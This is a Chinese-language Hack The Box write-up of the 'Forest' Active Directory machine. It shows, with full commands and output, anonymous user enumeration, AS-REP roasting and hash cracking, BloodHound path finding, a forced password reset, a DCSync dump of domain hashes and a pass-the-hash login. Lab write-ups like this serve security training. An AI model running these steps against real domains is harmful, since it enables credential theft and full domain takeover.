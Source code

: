 ```yaml
---
title: "HTB-Forest"
date: 2025-01-18
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Forest  
❯ nmap forest.htb -sV -T4
 
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos 
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.68 seconds
```

将**htb.local**加入**/etc/hosts**

## Userenum

```
[root@kali] /home/kali/Forest  
❯ rpcclient -U "" -N 10.10.xx.xx
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[john] rid:[0x2581]
```

可以看到最后有几个账户，写入到**usernames.txt**中

使用**Kerbrute**验证用户是否存在

```
[root@kali] /home/kali/Forest  
❯ ./kerbrute_linux_amd64 userenum -d htb.local usernames.txt --dc htb.local                                   

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - Ronnie Flathers @ropnop

 Using KDC(s):
  htb.local:88
 [+] VALID USERNAME:       john@htb.local
 [+] VALID USERNAME:       lucinda@htb.local
 [+] VALID USERNAME:       svc-alfresco@htb.local
 [+] VALID USERNAME:       andy@htb.local
 [+] VALID USERNAME:       santi@htb.local
 [+] VALID USERNAME:       sebastien@htb.local
 [+] VALID USERNAME:       mark@htb.local
 Done! Tested 7 usernames (7 valid) in 0.494 seconds
```

## Kerberos Hash

```
[root@kali] /home/kali/Forest  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "10.10.xx.xx" htb.local/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User sebastien@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@htb.local@HTB.LOCAL:581886053a84371d1a088f2f1a1939ae$db01aab7678e3e24efe617fa3b286847354bf71b94618cb06a428e0907cec6851c587d4455a66b61e42570a53b419b74c0e4d260292966c7ad18339facaa55ab1007cccf6aaf53f243dacd5b9e473b21d1cfc0ef2ee0ac65cedecd07a7a88a16169d2954ba9ae311d739f9e6fd2ee59a2fb0808d1834efdceadee99bxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[-] User john@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
```

可以发现**svc-alfresco**用户并没开启预身份验证标志，因此工具能够成功获取到该用户的 **AS-REP** 哈希，进一步密码破解

## Crack password

```
[root@kali] /home/kali/Forest  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxxxx          ($krb5asrep$23$svc-alfresco@htb.local@HTB.LOCAL)     
```

目标机器的**5985**端口是打开的，可以使用**Evil-winrm**

![](./images/image-33.png)

## Privilege Escalation

### Bloodhound

将**forest.htb.local**添加到**/etc/hosts**

```
[root@kali] /home/kali/Forest  
❯ bloodhound-python -u svc-alfresco -p "xxxxxxxxx" -d htb.local -ns 10.10.xx.xx -c All
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 33 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

![](./images/image-31.png)

可以看到**svc-alfresco**拥有**John**用户，而**John**用户可以对**htb.local**进行`DCSync`攻击

### About DCSync 

**DCSync** 攻击是一种针对 **Active Directory**（**AD**）的攻击方式，攻击者通过模拟域控制器（**DC**）来获取域中用户的密码哈希。通过这种方式，攻击者无需直接访问目标计算机或服务的密码，而是通过“同步”请求来窃取目标账户的哈希。

### Set John's Password

因为分析域内，**john**是可以进行**DCSync**攻击，**svc**是无法直接攻击的，所以需要修改一下他的密码（前提是**svc**对**john**有控制权限

```
[root@kali] /home/kali/Forest  
❯ bloodyAD --host '10.10.xx.xx' -d 'htb.local' -u 'svc-alfresco' -p 'xxxxxxxxx' set password 'john' '12345678'           
[+] Password changed successfully!
```

### SecretsDump

使用**impacket-secretsdump**来获取域控上的**hash**

```
[root@kali] /home/kali/Forest  
❯ impacket-secretsdump "htb.local/john:12345678"@10.10.10.161       
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:3269XXXXXXXXXXXXXXXX:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```

最后**Evil-winrm**用**Hash**登录拿到**root.txt**

![](./images/image-32.png)

## Summary

`User`：使用**rpcclient**进行用户枚举，当然也可以使用**ldapsearch**，不过后者输出格式会更加复杂。使用**GetNPUsers**来进行免密访问获取账户的哈希（前提是帐户设置了 **UF\_DONT\_REQUIRE\_PREAUTH**）。随后进行密码爆破，通过**5985**端口远程登录账户得到**user.txt**

`Root`：通过拿到的**svc**账户使用**bloodhound**进行域内分析，找到一条**DCSync**的线路，在之前我的文章[HTB-Administrator - HYH](https://www.hyhforever.top/htb-administrator/)中也有关于这个的内容。SVC本身账户无法进行**DCSync**攻击，而需要设置**john**的密码后通过**John**实施攻击。
